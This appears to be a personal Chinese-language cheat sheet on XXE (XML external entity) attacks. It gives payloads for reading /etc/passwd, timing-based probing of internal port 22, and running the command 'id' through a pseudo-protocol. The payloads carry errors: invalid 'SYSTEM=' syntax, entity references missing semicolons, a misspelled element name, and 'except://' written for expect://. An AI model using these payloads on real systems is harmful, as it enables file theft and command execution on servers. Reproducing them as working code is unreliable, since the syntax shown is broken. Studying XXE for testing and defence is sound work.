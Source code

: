 
![Pasted image 20240914100255.png](/img/user/picture/Pasted%20image%2020240914100255.png)

# 漏洞利用

## 文件读取
通过加载外部实体，利用file://、php://等伪协议读取本地文件
payload：
```php
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE creds[
<!ELEMENT userename ANY>
<!ELEMENT password ANY>
<!ENTITY xxe SYSTEM="file:///etc/passwd"]>
<creds>
    <username>&xxe</username>
    <password>test</password>
</creds>
```

## 内网探测

 利用xxe漏洞进行内网探测，如果端口开启，请求返回的时间会很快，如果端口关闭请求返回的时间会很慢
 //感觉不好用
 

探测22号端口是否开启

payload:
```php
<?xml version="1.0"?>
<!DOCTYPE creds[
<!ELEMENT userename ANY>
<!ELEMENT password ANY>
<!ENTITY xxe SYSTEM="http://127.0.0.1:22"]>
<creds>
    <username>&xxe</username>
    <password>test</password>
</creds>
```


## 命令执行
**利用xxe漏洞可以调用except://伪协议调用系统命令**

payload:
```php
<?xml version="1.0"?>
<!DOCTYPE creds[
<!ELEMENT userename ANY>
<!ELEMENT password ANY>
<!ENTITY xxe SYSTEM="except://id"]>
<creds>
    <username>&xxe</username>
    <password>test</password>
</creds>
```

